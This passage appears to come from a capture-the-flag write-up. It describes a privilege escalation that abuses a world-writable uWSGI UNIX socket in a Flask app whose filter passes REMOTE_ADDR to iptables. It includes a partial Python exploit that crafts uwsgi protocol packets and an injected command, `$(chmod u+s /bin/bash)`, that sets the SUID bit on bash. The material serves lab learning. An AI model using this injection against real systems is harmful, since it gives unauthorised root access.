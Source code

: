 ```python
    # Except the functions goes up to here. In this case, no form was submitted and we do not need to inform the user
    return render_template('contact.html', title='Contact', send=False, form=form)
```

In a nutshell, when the XSS filter is triggered, the application uses the `REMOTE_ADDR` parameter to send it through the dbus interface to the upstream iptables command. We can't spoof or modify this `REMOTE_ADDR` variable remotely so we'll have to exploit this another way.

The `uwsgi.ini` file shows that a UNIX socket is used to communicate between the webserver and the flask application:

```
[uwsgi]
module = oouch:app
uid = www-data
gid = www-data
master = true
processes = 10
socket = /tmp/uwsgi.socket
chmod-sock = 777
vacuum = true
die-on-term = true
```

The permissions on the socket allow us to read and write to the socket:

```
qtc@aeb4525789d8:/code$ ls -l /tmp
total 0
srw-rw-rw- 1 www-data www-data 0 Mar  2 15:21 uwsgi.socket
```

We can write using the uwsgi protocol directly to the socket and manipulate the values. The code below is an ugly hack put together from some examples found online. The payload I used here sets the SUID bit on `/bin/bash`: `$(chmod u+s /bin/bash)`

```python
import sys
import argparse
import socket
import struct
from binascii import hexlify

assert sys.version_info[0] == 3, 'Use Python 3.'


def force_bytes(value):
    if isinstance(value, bytes):
        return value
    return str(value).encode('utf-8')


def encode_uwsgi_vars(values):
    """
    Encode a list of key-value pairs into an uWSGI request header structure.
    """
    # See http://uwsgi-docs.readthedocs.io/en/latest/Protocol.html#the-uwsgi-vars
    buffer = []
    for key, value in values:
        key_enc = force_bytes(key)
        val_enc = force_bytes(value)
        buffer.append(struct.pack('<H', len(key_enc)))
        buffer.append(key_enc)
        buffer.append(struct.pack('<H', len(val_enc)))
        buffer.append(val_enc)
    return b''.join(buffer)
```